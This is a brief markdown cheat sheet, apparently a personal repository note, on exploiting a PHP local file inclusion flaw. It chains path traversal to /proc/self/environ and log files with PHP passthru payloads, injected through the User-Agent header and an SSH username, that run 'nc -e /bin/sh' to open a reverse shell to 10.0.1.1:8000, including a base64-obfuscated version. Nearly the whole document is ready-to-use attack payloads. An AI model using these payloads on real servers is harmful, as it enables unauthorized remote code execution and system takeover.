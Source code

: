 #File Inclusin Vulnerability
##Change this in the URL and intercept using burpsuite
```<URL>?page=../../../../../proc/self/environ```
##Add this user agent before forwarding  in burpsuit
```<?passthru("nc -e /bin/sh 10.0.1.1 8000")?>```
##Some places to look for infos
```/proc/self/environ```
```/var/log/auth/log```
```/var/log/apache2/access.log```
##With SSH
```ssh "<?passthru('nc -e /bin/sh <ip> <port>');?>"@<ip>```
##Encode as base64
```encode from brupsuit```
```ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxMC4wLjEuMSA4MDAw'));?>"@10.0.1.1```

